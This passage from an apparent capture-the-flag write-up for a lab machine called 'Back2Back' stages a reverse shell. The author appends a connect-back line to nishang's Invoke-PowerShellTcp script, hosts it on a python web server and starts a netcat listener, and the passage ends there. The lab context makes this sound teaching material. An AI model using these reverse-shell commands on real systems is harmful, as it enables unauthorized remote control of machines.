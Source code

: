 I see in the table that I got a username *(svc-postgres)* back. This is a service account for PostgreSQL.
Since the **whoami** command is successfully executed, it should also be possible to start a reverse shell as this user.
A reverse shell, which is often successful, is that of nishang.

I copy the *Invoke-PowerShellTcp.ps1* into my folder where I work and I rename the file to *shell.ps1* so I don't have to type so much. 

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
┌──(eMVee@kali)-[~/Documents/Back2Back]
└─$ cp ~/Documents/Usefull/nishang/Shells/Invoke-PowerShellTcp.ps1 .

┌──(eMVee@kali)-[~/Documents/Back2Back]
└─$ mv Invoke-PowerShellTcp.ps1 shell.ps1
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

Once the file is renamed, I open it with Visual Code to put the following line at the bottom of the script: **Invoke-PowerShellTcp -Reverse -IPAddress 10.0.2.15 -Port 4455**
When the script is opened now it will create a reverse shell to my machine on port 4455. 
![Image](/assets/img/WriteUp/ITSL/Back2Back/ITSL-Back2Back-1.png){: width="700" height="400" }

It is important to get the script on my target. I start a python3 web server with the command: **sudo python3 -m http.server 80**.
This way I can just make a url from my IP address and I don't have to name a port in the URL. 


~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
┌──(eMVee@kali)-[~/Documents/Back2Back]
└─$ sudo python3 -m http.server 80 
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~


Once the web server is up and running, I also start the listener in netcat with the command: **nc -lvp 4455**. 

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
┌──(eMVee@kali)-[~/Documents/Back2Back]
└─$ nc -lvp 4455
listening on [any] 4455 ...

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

